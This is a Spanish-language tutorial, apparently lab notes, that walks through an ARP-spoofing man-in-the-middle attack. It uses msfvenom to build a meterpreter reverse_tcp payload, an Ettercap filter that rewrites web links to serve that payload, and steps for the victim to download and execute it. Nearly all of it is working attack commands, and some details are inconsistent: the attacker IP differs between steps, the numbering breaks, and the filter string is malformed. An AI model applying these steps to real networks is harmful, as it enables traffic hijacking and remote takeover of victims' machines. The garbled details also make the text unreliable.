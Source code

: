 1. Instalamos **Metasploit** siguiendo [este tutorial](https://computingforgeeks.com/stall-metasploit-framework-on-debian/).

2. Creamos el payload:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.48.55 LPORT=5555 -f elf > payload.bin
```

3. Movemos el archivo al servidor Apache:

```bash
cp payload.bin /var/www/html/
```

4. Creamos el filtro `ett.filter`:

```bash
nano ett.filter
```
```bash
if (ip.proto == TCP && tcp.src == 80) {
    replace("a href", "a href=\"http://10.11.49.55/payload.bin\">");
    msg("replaced href.\n");
}
```

5. Compilamos el filtro:

```bash
etterfilter ett.filter -o ig.ef
```

6. Activamos el `ip_forwarding`:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

7. Iniciamos **Ettercap** con el filtro:

```bash
ettercap -T -F ig.ef -i ens33 -q -M arp:remote //10.11.49.54/ //10.11.48.1/
```

8. Desde el cliente, accedemos a la página y descargamos el payload:

```bash
curl http://example.com
```

> [!NOTE]
> También se puede usar `wget` para descargar el payload.

1. Damos permisos de ejecución al payload:

```bash
chmod +x payload.bin
```

10. Ejecutamos el payload en la máquina víctima:

```bash
./payload.bin
```

